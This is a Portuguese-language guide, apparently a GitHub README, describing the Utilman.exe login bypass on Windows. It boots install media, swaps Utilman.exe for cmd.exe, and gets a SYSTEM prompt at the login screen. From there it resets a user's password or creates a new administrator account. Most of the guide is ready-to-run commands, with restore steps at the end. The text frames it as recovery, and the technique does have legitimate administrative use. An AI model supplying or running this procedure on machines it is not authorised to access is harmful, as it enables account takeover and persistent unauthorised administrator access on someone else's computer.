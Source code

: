 ## Procedimento de Bypass de Autenticação (Acesso Físico)

***(Utilizando o `Utilman.exe` na mídia de instalação do Windows)***

Este método permite a elevação de privilégios (`SYSTEM`) na tela de login para fins de recuperação ou alteração de credenciais, explorando a função de Acessibilidade (`Utilman.exe`).

### Pré-requisito

  * Mídia de instalação ou recuperação do Windows (USB ou DVD).
  * Acesso físico ao sistema alvo.

### Etapa 1: Preparação do Ambiente

1.  **Inicialize (Boot)** o sistema a partir da mídia de instalação do Windows.
2.  Na primeira tela de configuração, pressione **`Shift` + `F10`** para abrir o *Prompt de Comando* (`cmd`).
3.  Utilize o comando `diskpart` ou `wmic logicaldisk get Caption` para **identificar a letra da unidade** onde o sistema operacional Windows está instalado (ex: `C:`).

### Etapa 2: Substituição do Binário

Navegue até o diretório `System32` e substitua o executável de Acessibilidade (`Utilman.exe`) pelo *Prompt de Comando* (`cmd.exe`).

```bash
cd /d C:\Windows\System32
copy utilman.exe utilman.exe.bak
copy cmd.exe utilman.exe
```

### Etapa 3: Execução do Bypass

1.  **Reinicie** o sistema normalmente (remova a mídia de instalação).
2.  Na tela de login do Windows, clique no **ícone de Acessibilidade** (*Ease of Access*). O `cmd.exe` será executado, mas com privilégios de **`SYSTEM`**.

### Etapa 4: Gerenciamento de Contas

No *prompt* com privilégios de `SYSTEM`, realize a ação desejada:

| Objetivo | Comando |
| :--- | :--- |
| **Trocar Senha** | `net user [usuário] [NovaSenha]` |
| *Exemplo:* | `net user joana NovaSenha123` |
| **Criar/Promover Conta** | `net user [usuário] [senha] /add` <br> `net localgroup Administradores [usuário] /add` |
| *Exemplo:* | `net user novo_admin SenhaSegura /add` <br> `net localgroup Administradores novo_admin /add` |

### Etapa 5: Restauração da Configuração Original

Para restaurar a integridade do sistema, o binário original deve ser recolocado.

1.  Repita a **Etapa 1** (Boot pela mídia de instalação e abrir `cmd`).
2.  Restaure o `Utilman.exe` a partir do *backup* (`.bak`).

<!-- end list -->

```bash
cd /d C:\Windows\System32
copy utilman.exe.bak utilman.exe
del utilman.exe.bak
```

3.  Reinicie o sistema normalmente.

